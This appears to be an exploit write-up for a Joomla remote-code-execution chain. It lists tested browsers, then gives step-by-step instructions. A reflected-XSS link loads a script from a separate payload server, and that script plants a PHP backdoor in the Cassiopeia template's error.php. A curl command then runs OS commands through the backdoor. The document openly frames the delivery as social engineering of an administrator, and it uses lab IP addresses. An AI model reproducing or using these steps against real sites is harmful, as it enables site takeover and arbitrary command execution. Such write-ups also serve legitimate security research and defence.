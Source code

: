 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`patchFileJoomla.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/patchFileJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.13` - web server hosting payload

5. [post exploit] execute OS command

    ```
    curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on exfiltrated data (obtained via `GET` request, when fetching `bd.txt`)

6. [restore file] restore file via GUI

    *Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templlates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 5 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_patch_file_-_1-1.png)
